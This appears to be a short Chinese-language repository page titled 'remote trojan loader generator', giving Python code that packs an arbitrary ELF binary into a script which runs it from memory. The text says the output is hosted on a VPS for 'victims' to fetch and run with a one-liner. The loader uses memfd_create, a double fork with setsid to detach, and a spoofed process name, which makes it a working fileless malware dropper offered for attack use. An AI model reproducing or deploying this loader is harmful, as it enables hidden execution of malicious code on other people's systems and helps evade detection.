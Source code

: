 2.远程木马加载器生成器

运行本python文件，生成python版的elf内存加载器，将生成的文件放在vps对应目录，供受害者使用一句话获取运行。

```python
import zlib
import binascii
import optparse

def read_file(filename):
    binarys=b""
    f=open(filename,"rb")
    for binary in f.readlines():
        binarys+=binary
    return binascii.b2a_hex(zlib.compress(binarys))

def create_loader(data):
    src1_code="data = %s" %(data)
    src2_code='''
import ctypes
import os
import zlib
import binascii
binary = zlib.decompress(binascii.a2b_hex(data))
fd = ctypes.CDLL(None).syscall(319,"",1)
final_fd = open('/proc/self/fd/'+str(fd),'wb') 
final_fd.write(binary)
final_fd.close()
fork1 = os.fork()
if 0 != fork1: os._exit(0)
ctypes.CDLL(None).syscall(112)
fork2 = os.fork()
if 0 != fork2: os._exit(0)
# execl 2参数设置进程名，3参数往后设置该elf的运行参数。
os.execl('/proc/self/fd/'+str(fd),'argv0','-al')
    '''
    with open('core.py', 'w') as f:
        f.writelines(src1_code)
        f.writelines(src2_code)
    
def main():
    parser = optparse.OptionParser('python3 create_core.py -f /usr/bin/ls' )
    parser.add_option('-f', '--file', dest = 'filename', type = 'string', help = 'set the file to be loaded.')
    (options,args) = parser.parse_args()
    filename=options.filename
    data = read_file(filename)
    create_loader(data)

if __name__ == '__main__':
    main()
```
